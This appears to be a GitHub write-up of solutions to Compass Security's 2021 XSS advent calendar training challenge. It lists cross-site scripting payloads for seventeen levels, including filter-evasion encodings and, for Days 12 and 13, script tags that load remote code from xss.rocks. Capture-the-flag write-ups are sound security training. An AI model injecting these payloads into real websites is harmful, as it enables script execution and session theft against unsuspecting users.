 # Merry XmaSS – XSS advent calendar 2021

Find the challenge hosted by [Compass Security](https://www.compass-security.com/de/) here: https://xmass.compass-demo.com/

Use your XSS skills to pop up *alert(1)* windows on every day.

Helpful resources and tools:

* En-/Decoding: https://gchq.github.io/CyberChef/

---

**SPOILER ALERT!** Stop reading here, if you want to solve the challenges yourself.

---

These are some solutions I was able to find, I am sure there are many more. Tested with Firefox Version 95.0 (64-bit) on Windows.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```
alternative solution (*user interaction required*)
```
a" onfocus="alert(1)"
```
**+++ Day 3 +++**  
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```
**+++ Day 4 +++**  
https://xmass.compass-demo.com/level4
```
a";alert(1);"
```
**+++ Day 5 +++**  
https://xmass.compass-demo.com/level5
```
a</textarea><script>alert(1)</script>
```
**+++ Day 6 +++**  
https://xmass.compass-demo.com/level6
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 7 +++**  
https://xmass.compass-demo.com/level7 *(use URL below to get the alert window)*
```
https://xmass.compass-demo.com/level7?inject=<script>alert(1)</script>
```
**+++ Day 8 +++**  
https://xmass.compass-demo.com/level8
```
" autofocus onfocus="alert(1)
```
alternativ solution *(mouse cursor has to be in the 'conent area' of the browser)*
```
" onmouseover="alert(1)" style="display: block; position: fixed; top: 0; left: 0; z-index: 99999; width: 9999px; height: 9999px; (mouse cursor musst be on content area of browser window)
```
**+++ Day 9 +++**  
https://xmass.compass-demo.com/level9 *(yes, worked on Day 6 already)*
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 10 +++**  
https://xmass.compass-demo.com/level10
```
<body onpageshow=alert(1)>
```
**+++ Day 11 +++**  
https://xmass.compass-demo.com/level11
```
<img src="#" Onerror="alert(1)"/>
```
**+++ Day 12 +++**  
https://xmass.compass-demo.com/level12
```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```
alternatively one character reference would be enough
```
<img src="x" onerror="&#97;lert(1)">
```
alternative solution (no `alert(1)` but the script executes)
```
<script src="https://xss.rocks/xss.js"></script>
```
**+++ Day 13 +++**  
https://xmass.compass-demo.com/level13
```
<script src="&#104;&#116;&#116;&#112;&#115;&colon;&sol;&sol;&#120;&#115;&#115;&period;&#114;&#111;&#99;&#107;&#115;&sol;&#120;&#115;&#115;&period;&#106;&#115;"></script>
```
alternatively one character reference would be enough
```
<script src="h&#116;tps://xss.rocks/xss.js"></script>
```
**+++ Day 14 +++**  
https://xmass.compass-demo.com/level14
```
\";alert(1);//
```
**+++ Day 15 +++**  
https://xmass.compass-demo.com/level15
```
";document.write('\x3Cscript\x3Eal'+'ert(1)\x3C/script\x3E');//
```
**+++ Day 16 +++**
https://xmass.compass-demo.com/level16
```
<script>alert`1`</script>
```
**+++ Day 17 +++**
https://xmass.compass-demo.com/level17
```
" onerror="alert(1)"
```

